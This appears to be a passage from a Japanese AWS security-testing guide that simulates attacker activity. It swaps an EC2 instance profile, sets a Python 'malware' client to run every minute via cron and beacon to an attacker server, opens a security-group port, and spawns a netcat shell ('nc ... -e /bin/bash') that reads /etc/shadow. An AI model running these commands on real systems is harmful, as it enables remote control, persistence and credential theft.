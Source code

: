 ```sh:
aws ec2 --profile switch disassociate-iam-instance-profile --association-id $association_id

# EC2にインスタンスプロファイルをアタッチ
aws ec2 --profile switch associate-iam-instance-profile --instance-id $instance_id --iam-instance-profile Name=$ip_name
```

- 2. HTTP通信を利用
  - マルウェア(Pythonスクリプト)を配備し、crontabで定期実行するように設定
  - HTTPのアウトバウンドで攻撃者のサーバと通信する環境の完成

```sh:
cd SecurityTest/cc-sample
scp  -i ~/.ssh/keypair-for-webapp.pem client.py ec2-user@<Web-ServerのIPアドレス>:~/

# cronの設定
sudo yum install cronie -y
sudo systemctl start crond
sudo systemctl enable crond

# 必要なモジュールをinstall
sudo /.pyenv/versions/3.10.11/bin/python -m pip install requests

# crontabで実行設定 
sudo crontab -e
### 以下をコピペ ###
* * * * * /.pyenv/versions/3.10.11/bin/python /home/ec2-user/client.py
```

- 3. Netcat
  - NetcatをWebサーバにinstallし、特定PortでListen状態にする
  - Webサーバにアタッチされているセキュリティグループで特定Portの通信を許可する

```sh:
### Webサーバ側 ###
# Netcatのインストール
sudo yum install nc

# 特定ポートでListen状態にする (例:8099)
nc -lpve 8099

### セキュリティグループの穴あけ ###
aws ec2 describe-instances --profile switch >> tmp.txt
instance_id=$(grep -C 120 Web tmp.txt | head -n 30 | grep -o '"i-.*"' | sed 's/"//g')
securitygroup_id=$(aws ec2 describe-instances --instance-ids $instance_id --query 'Reservations[].Instances[].SecurityGroups[].GroupId' --output text)
aws ec2 authorize-security-group-ingress \
    --group-id $securitygroup_id \
    --protocol tcp \
    --port 8099 \
    --cidr <指示を出す側のサーバのIPを含むCIDR>

### Webサーバに指示を出す側 ###
nc <WebサーバのIP> 8099 -e /bin/bash
sudo cat /etc/shadow
```

